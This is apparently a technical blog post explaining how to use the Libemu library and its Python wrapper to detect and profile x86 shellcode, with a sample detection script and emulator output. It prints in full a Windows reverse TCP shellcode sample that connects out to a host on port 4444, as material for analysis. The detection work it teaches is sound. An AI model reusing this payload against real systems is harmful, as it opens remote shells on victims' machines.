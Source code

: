 x86 Emulation and Shellcode Detection
=====================================
date: 06/Mar/2013
summary: Libemu is a C library for x86 emulation and shellcode detection. Pylibemu is its Python wrapper that provides an easy-to-use API and has additional features compared to the default bindings.
tags: code, reversing

## Introduction

[Libemu](http://libemu.carnivore.it/) is a C library that provides x86 architecture emulation and [shellcode](http://www.infosecwriters.com/hhworld/shellcode.txt) detection features. It uses [GetPC](http://skypher.com/wiki/index.php?title=Hacking/Shellcode/GetPC) heuristics to identify shellcode blobs within an input buffer.

`GetPC` is a shellcode writing technique, commonly used with [selfmodifying](http://www.blackhatlibrary.net/Shellcode/Self-modifying) shellcode. Self-modification is a technique that enables a piece code to mutate itself, primarily to hide from AV/HIPS filters. A shellcode won't be loaded by a trusted loading mechanism, but would rather be injected into a target process's virtual address space. As such, during execution, it will have very limited knowledge of its execution context. Specifically, it won't be loaded at a known location and a reliable guess of its base location is unfeasible. Due to this limitation, one cannot use hardcoded `jmp`/`call` addresses in a shellcode but rather rely on some code to get the base address and then use offsets from the current base to reach specific locations inside shellcode buffer. Such a piece of code is also referred to as being [Position Independent](http://en.wikipedia.org/wiki/Position-independent_code).

## Installation and Testing

Libemu install instructions are very well documented and a quick search would provide you good references, like [this](http://blog.xanda.org/2012/05/16/installation-of-libemu-and-pylibemu-on-ubuntu/) for example. Once both Libemu and it's Python binding, [pylibemu](https://github.com/buffer/pylibemu), are installed we can have a quick validation test:

```python
#!/usr/bin/env python

import sys
import pylibemu

buf = ""
for line in sys.stdin.readlines():
  buf += line

print "[+] Testing buf of fize %dB ..." % (len(buf))

emu = pylibemu.Emulator()
offset = emu.shellcode_getpc_test(buf)

if offset >= 0:
  print "[+] IS SHELLCODE!"
else:
  print "[-] NOT SHELLCODE!"
```

Above program creates an `Emulator` instance and uses it to perform `GetPC` test upon input buffer. It can read raw input from stdin which in our case will be pipe'd through an `echo` command as such:

```
$ echo -en "\xff\xff\xff\xff" | python emutest.py
[+] Testing buf of fize 4B ...
[-] NOT SHELLCODE!
$
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" | python emutest.py
[+] Testing buf of fize 173B ...
[+] IS SHELLCODE!
```

As is evident, the sample buffer that was used in a pylibemu usage example is indeed identified as shellcode through the `GetPC` test. Pylibemu provides another very useful API method, `test()`, that can profile shellcode bytes and identify Windows system calls, their parameters, return values, etc. This helps in understanding the behavior of identified shellcode:

```
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" | python emuprofile.py
[+] Testing buf of fize 173B ...
[+] IS SHELLCODE!
HMODULE LoadLibraryA (
  LPCTSTR = 0x02288910 =>
    = "ws2_32";
) =  0x71a10000;
int WSAStartup (
  WORD wVersionRequested = 2;
  LPWSADATA lpWSAData = 1244272;
) =  0x0;
SOCKET WSASocket (
  int af = 2;
  int type = 1;
  int protocol = 0;
  LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
  GROUP g = 0;
  DWORD dwFlags = 0;
) =  0x42;
int connect (
  SOCKET s = 66;
  struct sockaddr_in * name = 0x0012fe88 =>
    struct = {
      short sin_family = 2;
      unsigned short sin_port = 23569 (port=4444);
      struct in_addr sin_addr = {
        unsigned long s_addr = 339060928 (host=192.168.53.20);
      };
      char sin_zero = "       ";
    };
  int namelen = 16;
) =  0x0;
```

The profiling API identifies critical windows API calls above and emulates them in its x86 emulator. The return values for all system calls are recorded and dumped when requested. From the output it is evident that the shellcode under test will load the win32 socket library and then invoke socket calls to connect to host `192.168.53.20` through `4444/tcp` port. This implies that we are dealing with Windows/x86 Reverse TCP Bind shellcode.

## Extended Testing and CFG Generation

Libemu allows you to test arbitrary blob of bytes and test if it depicts shellcode-like behavior. Projects like [peepdf](http://code.google.com/p/peepdf/), [pyew](https://code.google.com/p/pyew/), and [Malzilla](https://code.google.com/p/pyew/) use Libemu for identifying, profiling and analyzing shellcode within arbitrary binary streams. Identifying shellcode in network streams is another interesting usecase and there is an [example](https://github.com/MITRECND/chopshop/blob/master/modules/shellcode_detector.py) for you to play around.

Libemu includes an interesting program, `sctest`, that can perform testing/profiling over arbitrary files. It can also generate a [CFG](http://en.wikipedia.org/wiki/Control_flow_graph) for detected shellcode and write it to a [DOT](http://en.wikipedia.org/wiki/DOT_%28graph_description_language%29) file which can then be rendered as an image:

```
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" >shellcode.bin
$
$ sctest -Sgs 1000000 -v -G test.dot <shellcode.bin
$
$ dot shellcode.dot -Tpng -o shellcode.png
```

Here is the generated CFG image:

![image](/static/files/posts_libemu_shellcode_detection/shellcode.png.webp)
